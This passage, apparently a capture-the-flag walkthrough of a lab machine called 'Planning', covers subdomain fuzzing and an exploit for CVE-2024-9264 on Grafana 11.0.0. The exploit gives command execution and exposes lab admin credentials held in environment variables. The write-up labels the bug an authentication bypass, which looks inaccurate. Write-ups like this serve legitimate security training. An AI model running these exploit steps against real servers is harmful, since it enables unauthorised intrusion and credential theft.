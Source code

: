 ### DNS Enumeration

```bash
# DNS subdomain enumeration
ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://planning.htb -H "Host: FUZZ.planning.htb" -mc 200,302
```

**Subdomain Found:**
- `grafana.planning.htb` [Status: 302]

### Host Configuration

```bash
# Add domains to /etc/hosts
echo "10.10.11.68 planning.htb grafana.planning.htb" >> /etc/hosts
```

## Attack Chain

### 1. Grafana Access and Version Discovery


# Access Grafana instance using the webui

**Key Findings:**
- Grafana Version: `11.0.0`
- Vulnerable to: `CVE-2024-9264`

### 2. CVE-2024-9264 Exploitation

**Vulnerability:** Grafana Authentication Bypass

```bash
# Clone exploit
git clone https://github.com/nollium/CVE-2024-9264.git
cd CVE-2024-9264/

# Execute exploit
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "whoami" http://grafana.planning.htb
```

### 3. Environment Variable Extraction

**Attack:** Leverage Grafana access to enumerate container environment

Using the Grafana interface to execute `linenum.sh` script for environment enumeration:

**Critical Environment Variables Found:**
```bash
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
```

